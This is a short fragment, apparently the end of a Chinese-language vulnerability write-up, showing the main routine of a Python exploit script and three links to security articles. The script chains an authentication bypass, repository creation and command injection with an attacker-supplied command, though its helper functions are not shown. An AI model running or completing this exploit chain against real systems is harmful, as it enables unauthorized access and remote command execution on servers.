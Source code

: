 ```
        headers = getHeader(url)
        type = getType(url)
        session = requests.session()
        cookies = bypass_auth(url, headers)
        id = gen_repo(cookies, headers, type)
        cmd_inj(id, sys.argv[2], cookies, headers, type)

```





参考链接：

https://www.penson.top/article/av44

https://www.secpulse.com/archives/195828.html

https://www.freebuf.com/vuls/355201.html